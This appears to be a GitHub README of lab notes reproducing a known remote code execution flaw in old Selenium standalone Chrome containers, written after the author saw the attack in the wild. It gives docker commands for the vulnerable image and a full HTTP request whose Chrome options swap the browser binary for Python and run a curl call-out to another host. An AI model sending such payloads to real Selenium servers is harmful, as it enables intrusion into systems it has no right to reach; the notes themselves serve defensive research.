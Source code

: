# selenium_code_exec_notes
Selenium Chrome 3.141.59 code exec notes

Note: this is not anything new. This repo just contains notes.

I was researching weird code execution alert in a selenium docker container. 
I'm surprised someone is running the old versions in 2024 and i'm even more suprised that someone is targeting this.

I started researching what the vuln could be and came across the following resources:
- https://www.reddit.com/r/selfhosted/comments/12drr31/remote_server_compromised/ - reddit user discussing similar incident
- https://pixeldrain.com/u/durDp8dh - logs from the reddit user above. shows "goog:chromeOptions" and "binary" used to execute python
- https://www.exploit-db.com/exploits/49915 - exploit 
- https://www.cybersecurity-help.cz/vdb/SB2021060114 - vuln info
- https://www.gabriel.urdhr.fr/2022/02/07/selenium-standalone-server-csrf-dns-rebinding-rce/ - This helped a lot! This pretty much shows the similar execution to the execution seen by the reddit user. My python script is based on this blog.


For fun/learning, I wanted to replicate it in my lab.

# running the container
```
docker pull selenium/standalone-chrome-debug:3.141.59-20210929 
docker run --rm -p 4444:4444 selenium/standalone-chrome-debug:3.141.59-20210929
```

Container running:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/48a72575-1954-41c5-a353-03024e68a8d0)

poc execution:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/28cc34d1-5538-4d58-921f-3e0b8a30766e)

curl request to my server from the container validating that we got execution:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/66dc8e2f-ef7c-4de7-88a4-c810660c6c9d)

docker logs:

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/6b43c002-a9a8-4fba-b978-f334aab810c9)

HTTP request:
```
POST /wd/hub/session HTTP/1.1
Host: localhost:4444
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: text/plain
Content-Length: 199

{"capabilities": {"alwaysMatch": {"browserName": "chrome", "goog:chromeOptions": {"binary": "/usr/bin/python3", "args": ["-cimport os;os.system('curl http://192.168.42.130:8080/from_container')"]}}}
```

![image](https://github.com/BoredHackerBlog/selenium_code_exec_notes/assets/38662926/3f45571a-4ba7-4ad8-a0f9-6adf62876606)
